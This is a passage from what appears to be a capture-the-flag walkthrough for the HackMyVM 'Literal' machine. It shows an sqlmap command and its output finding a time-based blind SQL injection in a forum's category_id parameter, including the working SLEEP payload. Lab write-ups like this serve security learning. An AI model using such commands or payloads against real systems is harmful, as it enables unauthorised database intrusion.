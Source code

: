 ![](/assets/img/posts/walthrough/hackmyvm/2024-10-01-literal/2-browse.png)

When we visit the web application, we will see that we can filter our posts based on different categories. These categories are precise by sending a number to the category_id parameter of the category.php page. 
![](/assets/img/posts/walthrough/hackmyvm/2024-10-01-literal/category-page.png)

This filtering process could also be done more effectively by using a DBMS. For this reason, let's use SQLMap to test if the parameter is vulnerable to SQLi.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/Literal/Misc File]
└─$ sqlmap -u 'http://forumtesting.literal.hmv/category.php?category_id=1' --batch 
<SNIP>
GET parameter 'category_id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 94 HTTP(s) requests:
---
Parameter: category_id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: category_id=1 AND (SELECT 4467 FROM (SELECT(SLEEP(5)))Dzqc)
---
[20:10:31] [INFO] the back-end DBMS is MySQL
<SNIP>
[*] ending @ 20:10:31 /2024-09-30/
```
